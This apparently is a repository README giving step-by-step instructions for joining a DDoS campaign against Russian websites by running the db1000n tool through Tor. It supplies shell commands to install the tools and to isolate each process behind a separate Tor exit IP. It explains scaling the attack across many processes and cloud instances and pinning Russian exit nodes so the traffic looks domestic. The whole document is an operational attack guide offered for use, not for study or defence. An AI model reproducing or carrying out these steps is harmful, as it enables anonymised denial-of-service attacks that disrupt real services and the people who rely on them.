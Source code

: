 The following instructions allow you to participate in russian sites attack without using any 3rd party VPN, and hence without sharing your personal data with suspicious VPN resource providers and without spending any money resources for such services.

- Demo at [YouTube](https://www.youtube.com/watch?v=AVqajaICvt0) using db1000n in clean Ubuntu VM.
- Similar [demo](https://www.youtube.com/watch?v=QKLkvq8iNo0) of using tor  with wrk load test tool.
- In fact, you may run almost any command line tool with torsocks in front. Exceptions are ping/hping and other tools that use raw or udp sockets.

If you have Windows computer - the same instructions work well with WSL distributions, so go ahead and configure Windows Subsystem for Linux in your Windows PC. Personally I am using Kali Linux distribution in WSL on all my Windows PCs (sample of using LattePanda Delta can be watched [here](https://youtu.be/v1v2OhcfwFw) ).

# Installing tor and db1000n

Install tools and download db1000n 
```bash
sudo apt-get -y update && \
sudo apt-get -y install tor torsocks wget curl && \
wget https://github.com/Arriven/db1000n/releases/download/v0.8.21/db1000n_0.8.21_linux_amd64.tar.gz -O db1000n.tar.gz && \
tar xvzf db1000n.tar.gz -C ./
```

# Setting up basic tor options 

Separate IP per torsocks process:
```bash
cat /etc/tor/torsocks.conf | sed 's/#IsolatePID/IsolatePID/g' | sudo tee /etc/tor/torsocks.conf > /dev/null 
```

And max connections limit up to max possible value:
```bash
echo "ConnLimit 32267" | sudo tee -a /etc/tor/torrc > /dev/null
```

# Start tor service
```bash
sudo service tor start
```

# Check you have each time new IP
Repeat this command multiple times to verify you indeed have each time new IP address:
```bash
torsocks curl -L jsonip.com
```

You should get something similar to the following (definitely with different IPs in your case):
```bash
$ torsocks curl -L jsonip.com
{"ip":"91.92.109.43","geo-ip":"https://getjsonip.com/#plus","API Help":"https://getjsonip.com/#docs"}
$ torsocks curl -L jsonip.com
{"ip":"178.17.174.164","geo-ip":"https://getjsonip.com/#plus","API Help":"https://getjsonip.com/#docs"}
$ torsocks curl -L jsonip.com
{"ip":"185.163.204.44","geo-ip":"https://getjsonip.com/#plus","API Help":"https://getjsonip.com/#docs"}
$ torsocks curl -L jsonip.com
{"ip":"178.17.170.174","geo-ip":"https://getjsonip.com/#plus","API Help":"https://getjsonip.com/#docs"}
$
```

# Run
```bash
torsocks ./db1000n 
```
At this point you already running the attack. 
You may start multiple instances to get more load generated - due to `IsolatePID 1` option in torsocks, everything you start as separate process get separate nodes used, and as result separate IP address at the exit node.
You also may start such attack in multiple VMs (or EC2/Azure/GCE) instances to produce even more load.

The next topic is about configuring exit nodes at specific locations (for instance if you need to attack from RU internet segment).

#  Find Tor Nodes in specific country
Go to https://metrics.torproject.org/rs.html

Searching only russian outgoing relays: https://metrics.torproject.org/rs.html#search/country:ru

To use specific Nodes from the search result you may use Node's fingerprint or IP address in ExitNodes entry of the torrc config.

So to use Nodes 95.214.54.70, 82.165.116.173 and 185.32.222.237 addthe following entry to `/etc/tor/torrc` file:
```
ExitNodes 95.214.54.70,82.165.116.173,185.32.222.237
```

# More information about configuring Tor
- [torrc man page](https://manpages.debian.org/testing/tor/torrc.5.en.html)
- [torsocks.conf details](https://linux.die.net/man/5/torsocks.conf)
